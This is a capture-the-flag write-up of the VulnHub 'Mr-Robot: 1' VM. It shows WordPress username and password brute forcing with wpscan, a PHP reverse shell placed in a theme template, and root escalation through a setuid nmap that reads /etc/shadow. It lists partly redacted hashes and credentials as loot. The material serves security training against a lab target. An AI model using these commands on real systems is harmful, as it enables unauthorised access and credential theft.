

# [[VulnHub] Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/)

**Date**: 21/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap)  

## Overview
This is a writeup for VulnHub VM [`Mr-Robot: 1`](https://www.vulnhub.com/entry/mr-robot-1,151/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Thu Oct 17 15:46:57 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.mrrobot1/results/192.168.92.134/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.mrrobot1/results/192.168.92.134/scans/xml/_quick_tcp_nmap.xml 192.168.92.134
Nmap scan report for 192.168.92.134
Host is up, received arp-response (0.00077s latency).
Scanned at 2019-10-17 15:46:58 PDT for 22s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 64
80/tcp  open   http     syn-ack ttl 64 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http syn-ack ttl 64 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
MAC Address: 00:0C:29:C0:00:97 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 17 15:47:20 2019 -- 1 IP address (1 host up) scanned in 23.94 seconds

```

2\. We find 2 interesting entries within the `http://192.168.92.134/robots.txt` file. One of these is for the first of the 3 key files and the other entry points to what looks like a dictionary file:  
``` {.python .numberLines}
http://192.168.92.134/robots.txt
  http://192.168.92.134/fsocity.dic
  http://192.168.92.134/key-1-of-3.txt

```

  

  

3\. We download the dictionary file and trim its contents to have only unique entries. This reduced the count of possible passwords from `858160` to `11451`:  

  

4\. From the `gobuster` scan, we also find entries pointing to a Wordpress installation. We confirm this by visiting the login page:  
``` {.python .numberLines}
http://192.168.92.134/wp-login

```

  

5\. After trying a few credentials manually, we decide to bruteforce usernames first. We first need to create a usernames list from the `fsocity.dic` dictionary found earlier. For our case, we will filter on strings that are 4-8 chars long. Doing this, we eventually find 5247 possible candidates. We then bruteforce these strings and find a valid username:  
``` {.python .numberLines}
grep -E '^[a-zA-Z]' fsocity.dic | sort -u |  awk 'length($1) <=8 && length($1) >= 4 { print $1}' > users
wpuser http://192.168.92.134/ users
  Found valid username: elliot
  Found valid username: Elliot
  Found valid username: ELLIOT

```

  

  


### Findings
#### Open Ports:
``` {.python .numberLines}
80/tcp   |  http      |  Apache httpd
443/tcp  |  ssl/http  |  Apache httpd
```
#### Files
``` {.python .numberLines}
http://192.168.92.134/robots.txt
http://192.168.92.134/key-1-of-3.txt
```
#### Users
``` {.python .numberLines}
wordpress: elliot
```

\newpage
## Phase #2: Exploitation
1\. We confirm that the username is indeed valid from Wordpress error message for incorrect password. We then use `wpscan` to bruteforce password for user `elliot` using the trimmed dictionary file and find a match:  
``` {.python .numberLines}
wpscan --url http://192.168.92.134 -P fsocity.dic.trimmed -U elliot
  [i] Valid Combinations Found:
   | Username: elliot, Password: ER28-0652

```

  

  

2\. We now authenticate as user `elliot` to the Wordpress installation and find that this user has administrative privileges. We can use these privileges to successfully upload a PHP reverse shell by modifying the `404.php` template and gain interactive access on the target system:  

  

  

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
robot@linux> id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux>  
robot@linux> uname
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
robot@linux>  
robot@linux> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:c0:00:97
      inet addr:192.168.92.134  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fec0:97/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:1167588 errors:175 dropped:102 overruns:0 frame:0
      TX packets:1066054 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:928655350 (928.6 MB)  TX bytes:849863574 (849.8 MB)
      Interrupt:18 Base address:0x2000
robot@linux>  
robot@linux> users
root
bitnamiftp
mysql
robot
```

\newpage
## Phase #3: Privilege Escalation
1\. While looking at the `/home/` directory we find that there is a directory for user `robot` and this user has access to the second key file `key-2-of-3.txt`. We have to switch user to access this key file and to do that we need user `robot`'s password. We also find a word-readable `password.raw-md5` file within this directory and use Google to find that it is the MD5 hash of the string `abcdefghijklmnopqrstuvwxyz`. We can now proceed and switch user:  
``` {.python .numberLines}
cat /home/robot/password.raw-md5
  robot:c3fcd3d76192e4007dfb496cca67e13b
su - robot
cat /home/robot/key-2-of-3.txt

```

  

  

  

2\. We find that the `nmap` binary on this system has `setuid` privileges. We can use this to gain elevated access:  
``` {.python .numberLines}
find / -type f -perm -04000 2>/dev/null
ls -la /usr/local/bin/nmap
nmap --interactive
  !cat /etc/shadow
  !sh

```

  

  

  

  

3\. We can now read the `/root/key-3-of-3.txt` file to complete the challenge:  
``` {.python .numberLines}
cat /root/key-3-of-3.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$9xQC1KOf$5cmONytt0VF/wi3Np3jZGRSVzpGj6sXxVHkyJLjV4edlBxTVmW91pcGwAViViSWcAS/.OF0iuvylU5Izn........................
bitnamiftp:$6$saPiFTAH$7K09sg5oIfkIs5kuMx1R/Um4HNd8O6vF2n8oICEom8VVer0BYATY5wtzdPdP3JeuKbZ4RYBml0THNQv8.........................
robot:$6$HmQCDKcM$mcINMrQFa0Qm7XaUaS5xLEBSeP3bUkr18iwgwTAL8AIfUDYBWG5L8J9.Ukb3gVWUQoYam4G0m.I5qaHBn........................
```
### Credentials
``` {.python .numberLines}
ssh: robot/abcdefghijklmnopqrs.......
wordpress: elliot/ER28-....
```
### Flags
``` {.python .numberLines}
http://192.168.92.134/key-1-of-3.txt: 073403c8a58a1f80d9..............
/home/robot/key-2-of-3.txt: 822c73956184f694993b............
/root/key-3-of-3.txt: 04787ddef27c3dee1ee16...........
```

## References
[+] <https://www.vulnhub.com/entry/mr-robot-1,151/>  
[+] <http://f4l13n5n0w.github.io/blog/2016/08/10/vulnhub-mr-robot-1/>  
